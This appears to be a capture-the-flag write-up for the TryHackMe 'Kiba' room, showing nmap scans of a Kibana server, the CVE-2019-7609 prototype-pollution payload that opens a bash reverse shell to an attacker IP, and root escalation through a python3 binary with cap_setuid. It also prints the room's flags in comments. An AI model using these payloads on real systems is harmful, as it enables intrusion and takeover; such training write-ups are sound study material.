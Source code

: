 # About

This is a writeup for the [Kiba room on TryHackMe](https://tryhackme.com/room/kiba). The writeup contains step-by-step guide and some reading materials.
## Questions
### What is the vulnerability that is specific to programming languages with prototype-based inheritance?
**Answer**: Prototype pollution

[Read more](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)


### What is the version of visualization dashboard installed in the server?
```
nmap -p- 10.10.30.229
```
Output is as follows:
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
```

```
nmap -sC -sV -p 5044, 5601 10.10.30.229
```
Output is as follows:
```
PORT     STATE SERVICE      VERSION
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 30 Aug 2020 10:14:23 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest:
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 30 Aug 2020 10:14:22 GMT
|   HTTPOptions:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 30 Aug 2020 10:14:22 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=8/30%Time=5F4B7BFE%P=x86_64-apple-darwin17.7.
SF:0%r(GetRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kiban
SF:a\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab
SF:54e3e6c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnec
SF:tion:\x20close\r\nDate:\x20Sun,\x2030\x20Aug\x202020\x2010:14:22\x20GMT
SF:\r\n\r\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-n
SF:ame:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\
SF:ncontent-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\
SF:x20no-cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x
SF:20Sun,\x2030\x20Aug\x202020\x2010:14:22\x20GMT\r\n\r\n{\"statusCode\":4
SF:04,\"error\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20
SF:Bad\x20Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%
SF:r(SSLSessionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Term
SF:inalServerCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLS
SF:SessionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,
SF:1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/
SF:1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\
SF:x20Not\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d
SF:04923283ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=
SF:utf-8\r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnect
SF:ion:\x20close\r\nDate:\x20Sun,\x2030\x20Aug\x202020\x2010:14:23\x20GMT\
SF:r\n\r\n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not
SF:\x20Found\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r
SF:\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOpti
SF:ons,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
```

Kibana could be reached via: http://10.10.30.229:5601/app/kibana

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
CVE-2019-7609

### Compromise the machine and locate user.txt
Nice payload is taken from [here](https://github.com/mpgn/CVE-2019-7609):
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.9.133.40/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.133.40/12345 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
ncat -vlp 12345
nc -lv 12345
```

Inside the machine:
```
kiba@ubuntu:/home/kiba/kibana/bin$ cat ~/user.txt
```
<!--The flag is **THM{1s_easy_pwn3d_k1bana_w1th_rce}**-->

### Capabilities is a concept that provides a security system that allows "divide" root privileges into different values
Nice [reading](https://www.incibe-cert.es/en/blog/linux-capabilities-en)

[Capability-based security](https://en.wikipedia.org/wiki/Capability-based_security)

### How would you recursively list all of these capabilities?
```
getcap -r /
```
Interesting part of the output is:
```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

### Escalate privileges and obtain root.txt
[Reading article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
So, we gave a capability to python3 to set uid. if we set it to 0, it is root.

```
kiba@ubuntu:/$ cd /home/kiba/.hackmeplease
```
The directory contains **python3**
```
kiba@ubuntu:/home/kiba/.hackmeplease$ ls
```
Set up a uid to 0.
```
kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
system("/bin/bash")' os; os.setuid(0); os.
```
Now we can check whether we are root with the help of *whoami* command:
```
whoami
```
Now we can go to */root* directory
```
cd /root
```
The */root* directory contains root.txt file.
```
cat root.txt
```

<!--**The flag** is THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}-->
